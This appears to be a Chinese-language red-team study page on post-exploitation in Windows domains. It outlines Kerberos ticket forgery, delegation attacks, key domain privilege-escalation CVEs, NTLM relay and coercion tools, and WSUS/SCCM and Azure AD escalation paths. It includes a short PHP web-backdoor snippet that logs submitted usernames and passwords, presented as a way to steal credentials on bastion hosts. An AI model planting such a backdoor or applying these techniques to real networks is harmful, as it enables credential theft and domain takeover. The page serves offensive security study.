

repository: lupingQAQ/red-team-skill-tree · page: zh-CN/ch-05/index.html · generator: mkdocs

# 5. 后渗透与内网横向

## 5.1 域渗透提权

**凭证基础**: NTLM流程 → winlogon.exe接收密码 → lsass.exe比对SAM

**票据类型**: 黄金票据 / 白银票据 / 钻石票据 / 蓝宝石票据

**委派攻击**: 非约束委派 / 约束委派 / 基于资源的约束委派(RBCD)

**关键CVE速查**:
| CVE | 名称 | 核心原理 |
|-----|------|---------|
| MS14-068 | PAC伪造 | KDC对PAC签名算法无验证→伪造高权限PAC(512/520/518/519) → 利用前提: 域控未打KB3011780补丁 + 域内计算机 + 域用户密码和SID |
| CVE-2020-1472 | Zerologon | AES-CFB8加密全零明文→1/256概率全零密文→NetrServerPasswordSet2置空密码(516字节零→空密码) |
| CVE-2021-1675/34527 | PrintNightmare | RpcAddPrinterDriver无需SeLoadDriverPrivilege→SYSTEM RCE(Print Spooler服务) |
| CVE-2021-42287+42278 | noPac | 机器账户名不以$结尾→创建与DC同名账户→请求TGT→改名→S4U2Self→高权限ST。MS-DS-Machine-Account-Quota=0时需对账户有写权限(GenericAll/加域账号) |
| CVE-2022-26923 | ADCS | DNSHostname修改→证书欺骗 |

**通过WSUS/SCCM提权**:
- [WSUSpendu](https://github.com/AlsidOfficial/WSUSpendu) - 域内补丁更新服务器，原理类似EDR总控下发文件命令
- [sccmwtf](https://github.com/xpn/sccmwtf) - 推PowerShell

**通过AzureAD提权**: Azure AD Sync → 获取同步账户 → DC Sync

**打邮服**: 域管登录过 / 翻邮件 / WriteACL权限→给自己dsync权限([PrivExchange](https://github.com/dirkjanm/PrivExchange))

**堡垒机/运维机**: web后门偷密码

**web后门偷密码**:
```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];
    $data = $username . ':' . $password . PHP_EOL;
    file_put_contents('users.txt', $data, FILE_APPEND | LOCK_EX);
}
```

**抓取域管登陆服务器的hash** / **找密码本** / **找特权组用户**(Administrator/Backup Operators)

**NTLM中继工具**: Responder / Inveigh / multirelayx.py / PrinterBug / PetitPotam / DFSCoerce / ShadowCoerce / PrivExchange / [Coercer](https://github.com/p0dalirius/Coercer)

**通过Distributed-COM-Users/Performance-Log-Users权限获得域控权限**: [参考](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/)

**分析组策略**: [gpoParser](https://github.com/synacktiv/gpoParser/tree/main)

**域内自动化**: [PIGADVulnScanner](https://github.com/evilashz/PIGADVulnScanner)
